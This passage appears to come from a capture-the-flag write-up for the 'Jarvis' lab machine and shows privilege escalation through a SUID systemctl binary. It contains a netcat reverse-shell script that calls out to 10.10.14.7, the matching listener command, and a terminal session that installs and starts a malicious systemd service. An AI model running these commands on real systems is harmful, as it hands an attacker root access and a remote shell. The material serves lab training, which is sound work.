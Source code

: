```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper

```

<h4>Exploit Systemctl Suid</h4>

First make evil.sh, a reverse shell to 6868...copied to the target (pepper's homedir)

```
#!/bin/bash

nc -nv 10.10.14.7 6868 -e /bin/bash
```
Set the netcat listener:
```
nc -nlvp 6868
```



<h4>Create systemctl service that calls evil.sh</h4>


```

pepper@jarvis:~$ P=boo.service
P=boo.service

pepper@jarvis:~$ echo '[Service]
echo '[Service]
> Type=oneshot
Type=oneshot
> ExecStart=/bin/bash -c "/home/pepper/evil.sh"
ExecStart=/bin/bash -c "/home/pepper/evil.sh"
> [Install]
[Install]
> WantedBy=multi-user.target' > $P
WantedBy=multi-user.target' > $P

pepper@jarvis:~$ chmod +s boo.service
chmod +s boo.service

pepper@jarvis:~$ systemctl link /home/pepper/boo.service
systemctl link /home/pepper/boo.service

pepper@jarvis:~$ systemctl enable /home/pepper/boo.service
systemctl enable /home/pepper/boo.service

pepper@jarvis:~$ systemctl start boo.service
systemctl start boo.service

```



Catch the shell on 6868:
